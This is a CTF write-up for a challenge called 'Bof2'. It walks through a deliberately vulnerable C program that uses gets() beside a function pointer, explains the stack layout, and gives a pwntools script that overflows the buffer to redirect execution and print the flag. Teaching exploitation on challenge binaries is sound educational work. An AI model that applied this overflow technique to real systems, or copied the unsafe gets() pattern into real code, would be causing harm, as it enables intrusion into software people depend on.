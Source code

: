 # Bof2

Bof2 is the second buffer overflow challenge of the CTF. In this case, our buffer overflow is a stack-based buffer overflow which means we'll end up overwriting values on the stack to get the flag. The full program is posted below for convenience.

## Program Analysis

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void win(){
    system("cat ./flag.txt");
    exit(0);
}

void handler(int num){
    printf("Bye!\n");
    exit(-1);
}

int main(void){
    volatile void (*foo)(void) = NULL;
    char buffer[16];

    signal(SIGALRM, handler);
    alarm(5);

	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);

    printf("win: %p\n", win);

    gets(buffer);

    printf("foo: %p\n", foo);
    if (foo == (void *)win)
        foo();

    printf("Better luck next time.\n");
    exit(-1);

    return 0;
}
```

Taking a cursory look at the program we notice a few things:

1. The program will exit after 5 seconds of being alive:

```C
void handler(int num){
    printf("Bye!\n");
    exit(-1);
}
...
signal(SIGALRM, handler);
alarm(5);
```

2. There is a character array and an integer. The character array has enough space on the stack for 16 characters. One thing to note here is that they are contiguous (right next to eachother/touching) in memory.

```C
volatile void (*foo)(void) = NULL;
char buffer[16];
```

3. There is a `printf` call that prints the address of the `win` function.

```C
printf("win: %p\n", win);
```

4. There is a call to `gets`. The `gets` function is inherently dangerous. If you run the command `man gets` to see get's manpage, you will see the security notice at the bottom:

> SECURITY CONSIDERATIONS
>     **The gets() function cannot be used securely**.  Because of its lack of
>     bounds checking, and the inability for the calling program to reliably
>     determine the length of the next incoming line, **the use of this function
>     enables malicious users to arbitrarily change a running program's func-
>     tionality through a buffer overflow attack**.  It is strongly suggested
>     that the fgets() function be used in all cases.  (See the FSA.)

```C
gets(buffer);
```

This means that we can send an unlimited amount of data to the program which will be written into the buffer without regard for any safety considerations.

4. In order to win, the address of `foo` must equal the address of `win`.

```
if (foo == (void *)win)
    foo();
```

Let's talk about getting the address of `win`. Because the address returned is the same every time, you could simply do this entire exploit using the `echo` command, but if a program had ASLR enabled (the address is different every time), you'd want to be able to retrieve the address printed, parse it, and use it in your exploit.

```Python
>>> line = r.recvline()
'win: 0x80485ab\n'
>>> line = line.rstrip("\n")
'win: 0x80485ab'
>>> line = line.split(" ")
['win:', '0x80485ab']
>>> address = line[-1]
'0x80485ab'
```

Now that we have the address of the `win` function, we need to convert it to an integer and `pack` it into 32-bit little endian. What this means is that when we send the address, it will send the data not as characters in a string but as bytes. If that doesn't make sense, do some googling on little endian and byte packing.

```Python
>>> address = '0x80485ab'
>>> address = int(address, 16)
134514091
>>> hex(134514091)
'0x80485ab'
>>> p32(address)
'\xab\x85\x04\x08'
```

Onto the exploit!

## Exploit

Now that we have completely analyzed the program, we can plan our attack.

Our stack looks like this in memory:

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | foo |
+---+---+---+-----+----+-----+
| 0 | 1 | 2 | ... | 15 |  0  |
+===+===+===+=====+====+=====+
```

In this case, the numbers on the bottom represent the index for each element. From here on out, the numbers on the bottom will represent values in memory.

If we were to write "AB" to the buffer, it would look like this:

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | foo |
+---+---+---+-----+----+-----+
| A | B | 0 | ... |  0 |  0  |
+===+===+===+=====+====+=====+
```

What if we wrote 16 A's?

```
+============================+
|           STACK            |
+======================+=====+
|         buffer       | foo |
+---+---+---+-----+----+-----+
| A | A | A | ... |  A |  0  |
+===+===+===+=====+====+=====+
```

This isn’t devastating as we didn’t corrupt any memory, but the buffer no longer contains a valid C string. Recall that C strings must be null-terminated. If mod was not set to 0, a call to printf would have trouble knowing where to stop and it would continue printing until it hit a NULL character.

What would happen if we wrote 16 A's and the address of `win`?

```
+====================================+
|                 STACK              |
+======================+=============+
|         buffer       |     foo     |
+---+---+---+-----+----+-------------+
| A | A | A | ... |  A |  0x80485ab  |
+===+===+===+=====+====+=============+
```

Our function pointer, foo, has been modified to equal the value of `win`! We successfully exploited the buffer overflow and overwrote the function pointer with the `win` function address, causing it to execute and print the flag!

A simple example of this exploit in pwntools would look like:

```Python
#!/usr/bin/env python2

from pwn import *

context.update(arch='i386', os='linux')

r = remote('bootcamp.ctf.cuctf.io', 9100)
address = r.recvline().rstrip("\n").split(" ")[-1]
payload = "A" * 16
payload += p32(int(address, 0))
r.sendline(payload)
r.interactive()
```
